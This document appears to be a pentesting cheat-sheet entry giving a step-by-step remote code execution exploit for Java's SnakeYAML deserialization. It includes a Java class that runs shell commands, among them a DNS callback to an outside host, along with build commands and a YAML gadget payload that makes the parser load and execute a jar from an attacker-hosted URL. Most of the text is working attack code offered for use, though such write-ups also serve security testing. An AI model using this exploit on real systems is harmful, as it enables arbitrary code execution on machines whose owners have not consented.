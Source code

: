 # Vulnerabilities in programming languages

# Java

## SnakeYAML
SnakeYAML deserialization fails and allows for RCE.
### Steps
- Clone the following repo: [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)     
- Edit the following part of `yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java`
    ```java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    ```
- Compile and put everything into a `.jar` file
    ```bash
    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```
- Make a server to host the jar file
- Enter the following yaml code into the parse
    ```yaml
    !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["URL TO JAR FILE"]
    ]]
    ]
    ```

### Troubleshooting
- If the java version of the vulnerble yaml parser doesn't match your java version then recompile:
    ```bash
    javac --release <version> src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```

### References
- [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)
- [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)
- [https://www.mankier.com/1/javac](https://www.mankier.com/1/javac)
- [https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment](https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment)
